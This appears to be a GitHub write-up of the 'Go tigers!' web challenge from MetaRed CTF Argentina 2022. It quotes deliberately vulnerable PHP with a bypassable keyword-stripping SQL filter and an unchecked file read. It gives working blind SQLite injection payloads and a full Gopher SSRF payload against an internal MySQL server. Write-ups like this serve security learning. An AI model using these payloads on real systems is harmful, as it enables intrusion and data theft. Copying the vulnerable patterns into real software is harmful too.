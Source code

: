 # Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we were face to two inut fields. The first one require an id and fetch in the database.If the id is valid it displays the id and the username.if not it displays nothing.The second field was an input that displays the content of a file using the function file_gets_content().

 <img src=img/1.png class="center">

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
IMG 

(I discovered later that this was useless since my team managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)

 <img src=img/18.png class="center">

Looking at the code of "index.php", we find out that ther uspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
```
<?php
ini_set('display_errors', 'on');

class TigerClass {
    public function superSafeWAF($sql) {
        $pdo = new SQLite3('../tiger.db', SQLITE3_OPEN_READONLY);
        $safesql = implode (['select',  'union', 'order', 'by', 'from', 'group', 'insert'], '|');
        $sql = preg_replace ('/' . $safesql . '/i', '', $sql);
        $query = 'SELECT id, user FROM tigers WHERE id=' . $sql . ' LIMIT 1';
        $tigers = $pdo->query($query);
        $sol = $tigers->fetchArray(SQLITE3_ASSOC);
        if ($sol) {
            return $sol;
        }
        return false;
        }
    }

if (isset($_POST['tiger_id']) && isset($_POST['submit'])) {
    $tiger = new TigerClass ();
    $tigerAccounts = $tiger->superSafeWAF($_POST['tiger_id']);

}

if (isset($_POST['name']) && isset($_POST['submit'])) {
        //if(strpos($_POST['name'], "/") !== false){
	//	die("You can't hackme hehe");
	//}
	$_POST['name'] = strtolower($_POST['name']);
	echo file_get_contents($_POST['name']);
	die();
}


?>
```
 <img src=img/2.png class="center">

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , with an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/5.png class="center">

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/20.png class="center">

--> username : admin 
--> password : This_password_is_very_safe!

We discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :

 <img src=img/9.png class="center">

This time one input that gets an url was present and after reading the source code of the admin.php (using the second input field in the index.php) we decided to look for an SSRF: 

IMG

**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **Acordarse de Fixear el BD user juanperez** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow
Tring the payload : **gopher://mysqlsafedb.com:3306/_Hello**
 
 <img src=img/11.png class="center">

Using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'

 <img src=img/16.png class="center">





 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus




